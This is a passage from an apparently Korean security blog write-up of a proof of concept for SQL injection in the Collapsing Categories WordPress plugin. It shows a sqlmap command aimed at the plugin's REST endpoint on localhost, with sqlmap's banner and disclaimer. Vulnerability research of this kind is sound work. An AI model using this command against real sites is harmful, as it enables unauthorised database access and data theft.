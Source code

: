 ![image.png](assets/posts/one-day/2025-01-20/image-005.png)

Poc를 효과적으로 수행하기 위해 sqlmap을 사용하였으며 GitHub 버전으로 clone 하였다.

[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

sqlmap.py 파일을 Python으로 실행하고 url과, 테스트 강도, 위험도, 데이터베이스 유형을 설정한다.

```bash
# SQLMap 명령어
# - 대상 URL: http://localhost:8000
# - 테스트 레벨: 3
# - 위험도: 3
# - DBMS: MySQL

python sqlmap.py -u "http://localhost:8000/wp-json/collapsing-categories/v1/get?taxonomy=category" --level=3 --risk=3 --dbms="MySQL"

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
```